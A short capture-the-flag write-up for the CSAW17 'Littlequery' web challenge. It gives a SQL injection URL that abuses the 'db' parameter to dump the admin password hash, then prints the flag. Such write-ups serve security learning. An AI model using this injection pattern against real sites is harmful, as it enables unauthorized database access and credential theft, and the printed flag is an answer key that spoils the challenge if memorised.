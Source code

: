 # CSAW17
## Littlequery - WEB
I've got a new website for BIG DATA analytics!

http://littlequery.chal.csaw.io

Write up available here : [techoverflow.fr](http://techoverflow.fr/2017/09/18/littlequery-web-csaw17/)

## Solution
http://littlequery.chal.csaw.io/api/db_explore.php?mode=preview&db=littlequery`.`user`;%20--%20&table=user to get the sha1 of admin's password.
Next login and grab flag.

## Flag
flag{mayb3_1ts_t1m3_4_real_real_escape_string?}
